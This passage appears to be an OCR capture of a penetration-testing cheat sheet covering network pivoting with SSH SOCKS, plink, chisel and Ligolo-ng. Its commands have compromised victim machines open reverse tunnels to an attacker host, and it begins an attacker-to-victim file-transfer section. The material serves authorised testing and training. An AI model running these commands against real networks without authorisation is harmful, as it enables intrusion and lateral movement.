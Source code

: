 ```
##### Forward SOCKS
- Attacker machine
```
ssh -D 8000 user@Victim
```
#### PLINK
- On attacker machine run
```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```
- Convert ssh keys to putty format using
```
puttygen KEYFILE -o OUTPUT_KEY.ppk
```
#### Chisel
- Compromised machine
```
./chisel server -p LISTEN_PORT
```
- Attacker
```
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```
- Compromised machine
```
./chisel server -p LISTEN_PORT --socks5
```
- Attacker machine
```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

#### Ligolo-Ng
- Set up the interfaces on the attacker machine with the following
```
ip tuntap add user kali mode tun ligolo
ip link set ligolo up
```
- On attacker machine start the ligolo script
```
./proxy -selfcert
```
- On victim machine run 
```
.\agent.exe -connect 192.168.45.241:11601 -ignore-cert
```
- Then add the route to your attacker machine with
```
sudo ip route add 172.16.83.0/24 dev ligolo
```
- Ensure to start the session in the ligolo script
- Add listeners with the following (in this instance direct traffic towards 80 and host services on 1337)
```
listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:1337 --tcp
```

# Lateral Movement

# File Transfers
## Attacker Machine to Victim
#### HTTP Server

- Attacker Run
```
python3 -m http.server 8000
```
```
